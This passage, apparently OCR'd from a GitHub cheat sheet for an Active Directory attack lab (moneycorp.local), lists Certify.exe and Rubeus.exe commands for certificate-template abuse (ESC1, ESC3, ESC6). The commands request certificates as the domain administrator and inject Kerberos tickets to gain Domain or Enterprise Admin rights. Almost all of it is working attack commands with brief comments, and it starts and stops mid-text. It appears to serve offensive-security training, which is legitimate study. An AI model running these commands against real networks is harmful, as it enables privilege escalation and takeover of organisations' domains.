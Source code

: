 ## scalation to EA, Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of EA using the "SmartCardEnrollment-Users" template.
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123`
## Request EA TGT and inject it:
`Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt`

## The CA in moneycorp has EDITF_ATTRIBUTESUBJECTALTNAME2 flag set. This means that we can request a certificate for ANY user from a template that allow enrollment for normal/low-privileged users.
`Certify.exe find`
## The template "CA-Integration" grants enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"CA-Integration" /altname:administrator`
## Convert from cert.pem to pfx (esc6.pfx below) and use it to request a TGT for DA (orEA).
`Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt`

## The template "HTTPSCertificates" has ENROLLEE_SUPPLIES_SUBJECT value for msPKI-Certificates-Name-Flag.(So we can access put the subject we want, so we can acces cert on behalf of whoever we want)
`Certify.exe find /enrolleeSuppliesSubject`
## The template "HTTPSCertificates" allows enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator`
## Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or EA).
`Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt`	


# Trust Abuse - MSSQL Servers - Databases links have no forest boundaries and etc ( same as love (credits to Nikhil Mittal) 
